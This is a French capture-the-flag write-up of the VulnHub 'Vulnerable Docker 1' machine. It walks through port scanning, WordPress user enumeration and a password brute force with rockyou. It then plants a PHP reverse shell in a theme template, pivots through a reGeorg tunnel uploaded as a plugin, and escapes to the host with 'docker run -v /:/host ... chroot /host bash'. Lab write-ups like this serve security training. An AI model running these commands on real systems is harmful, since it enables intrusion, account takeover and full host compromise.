


Vulnérable Docker 1
Write up d'une machine Docker vulnhub
Vulnerable Docker: 1
Difficulté: Easy
Difficulté: Hard
Outils utilisé:
Etape 1: Net Discover
Utilisation de l’outils netdiscover ( Kali Linux netdiscover | Kali Linux Tools ) pour pouvoir récupérer l’adresse ip de la machine cible.

Etape 2: Scan de port sur la machine cible
Je vais utiliser maintenant l’outils nmap ( Kali Linux nmap | Kali Linux Tools ) qui me permettre de lister les ports ouverts mais aussi les version de certains protocoles qui pourront m’aider a trouver certaine vulnérabilité.
sudo nmap -sV -sC -O -T5 -p- -oN discover.txt 192.168.56.104
# -sV -> Récupère la version des services
# -sC -> Utilise les scripts nmap nse (utilisés pour détecter des vulnérabilités sur les ports)
# -O -> Détection de l'OS
# -p- -> Test tous les ports
# -oN -> Écrit le résultat dans output.txt
! le port 2375 est ouvert que pour le mode esay !

| Port | Service | Description | Status | Details |
|---|---|---|---|---|
| 22 | ssh | OpenSSH | Open | |
| 8000 | http | Apache httpd | Open | On peux remarqué que wordpress est utilisé |
| 2375 | dockerd | Api Docker | Open | daemon Docker (only easy) |
Etape 3: Docker Recon (Optionnel → Mode easy)
Je vais donc utilisé cette API Docker pour pouvoir récupérer des information sur le docker ( on peut récupéré le flag final avec cette commande docker -H tcp://192.168.56.104:2375 run --rm -it -v /:/host wordpress chroot /host bash que pour le mode easy mais je l’utilise ce port pour comprendre toute l’infra Docker qui tourne )
┌──(kali㉿kali)-[~]
└─$ docker -H tcp://192.168.56.104:2375 image ls
-> Résultat: (étape complète sur mon github )
| REPOSITORY | TAG | IMAGE ID | COMMENTAIRE |
|---|---|---|---|
| wordpress | latest | c4260b289fc7 | Hébèrege un service wordpress, lié avec le port 8000 apache ouvert |
| mysql | 5.7 | c73c7527c03a | |
| jeroenpeeters/docker-ssh | latest | 7d3ecb48134e | Cette syntaxt de réposite est liée a un conteneur sur DockerHub |
Schéma de l'infra Docker qui tourne sur la machine cible
Etape 3 :Scan wpscan sur le service wordpress
wpscan --url http://192.168.56.104:8000 -e u,p
- -e
- u Énumère les utilisateurs WordPress
- p Enumère les plugins installés pour vérifier leur présence et détecter ceux qui pourraient être vulnérable
wpscan --url http://192.168.56.104:8000 -U bob -P /usr/share/wordlist/rockyou.txt
Et nous obtenons le login /mdp
Nous voila sur la page admin du WordPress et nous obtenons nôtre premier flag ( easy ) flag_1{2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998}
Etape 5 : Injecter une backdoor dans le wordpress
Pour sa nous allons modifier le code dans la sidebarre →Appearance→Editor→404Template par une un reverse shell php file qu’on récupère sur github
Nous avons plus qu’a écouter sur le port 4444 et lance la page où est upload le reverse shell

Etape 4 : Tunneling and cross protocole
- Récupéré le projet Regeorg sur github
-
┌──(kali㉿kali)-[~] └─$ git clone https://github.com/sensepost/reGeorg.git
-
- Prépare la charge utile
- Création d’un fichier d’en-tête WordPress puis on rajoute le scipt tunnel de regeorg
-
─$ cat <<-'EOF' >tunnel/head.php EOF $ cat tunnel/tunnel.php >> tunnel/head.php $ mv tunnel/head.php tunnel.php $ zip -r -9 tunnel.zip tunnel
- On ajoute notre charge en tant que plugin wordpress
- 
- Lancer le script regeorg et activation du proxy local
-
python2 /home/kali/reGeorg/reGeorgSocksProxy.py -l 127.0.0.1 -p 8087 -u http://192.168.56.104:8000/wp-content/plugins/tunnel/tunnel.php -v DEBUG
-
- Fonctionnement du tunnel avec le protocole SOCKS5
- Etape 1:
- Générer une trame ssh avec comme IP Dest celle du conteneur cible qui nous est pas accessible de base, et l’envoyer a nôtre proxy qui est lier a nôtre tunnel.php
- Etape 2 :
- Le protocole SOCKS 5 que utilise le script Regeorg encapsule le paquet ssh précédant par SOCKS 5
- Etape 3 :
- Le script Regeorg envoie une requête HTTP POST a tunnel.php avec les donnée SOCKS 5 a l’intérieur donc sont encore encapsuler par HTTP
- Etape 4 :
- Le plugin tunnel.php qui est sur le serveur désencapsule le paquet HTTP et exécutes les instruction SOCK 5 se qui crée une connexion avec la cible et transfère ensuite les données encapsulées à travers cette connexion.
- Etape 5 :
- Le plugin agit agit aussi comme un proxy:
- Il lit les réponses provenant de la cible
- Il réencapsule ces réponses dans un format SOCKS 5
- Il les renvoie via HTTP au proxy côté de l’attaquant
- Le plugin agit agit aussi comme un proxy:
- Etape 1:
Activation Regeorg
Nous allons utiliser la commande suivante pour activer le tunnel regeorg sur nôtre interface local
python2 /home/kali/reGeorg/reGeorgSocksProxy.py -l 127.0.0.1 -p 8087 -u http://192.168.1.15:8000/wp-content/plugins/tunnel/tunnel.php -v DEBUG
Pivot Docker
- L’objectif maintenant est d’installer le client docker sur le conteneur pour pouvoir exécuter des commande docker via l’API
- Sachant que scp est désactiver j’installe netcat et wget sur le conteneur
-
apt-get update apt-get install netcat apt-get install wget
-
- J’installe aussi le client docker sur ma machine et je la zip
-
mkdir docker_deb/ cd docker_deb/ apt download docker-ce apt depends -i docker-ce | awk '{print $2}' | xargs apt download tar cvzf ../docker.tar.gz .
-
- J’ouvre un server web avec python sur ma machine et je récupère le zip sur le conteneur
- Je dézip docker.tar.gz
tar xvzf docker.tar.gz dpkg -i *.deb
On peut enfin utiliser une commande docker qui permet de prendre le contrôle totale de l’hôte via un conteneur
Principe:
- Exécuter une commande docker a distance via l’API Docker
- Lancer un nouveau conteneur via une image existante
- Montage du système de fichiers: monte le système de fichier racine de l’hôte dans ce nouveau conteneur
- Prendre le contrôle totale de ce conteneur et donc a tous les fichier de l’hôte
docker -H unix:///var/run/docker.sock run --rm -it -v /:/host wordpress chroot /host bashEt on obtiens le flag en hard {d867a73c70770e73b65e6949dd074285dfdee80a8db333a7528390f6}

Merci pour vôtre lecture !
La write up disponible aussi sur mon github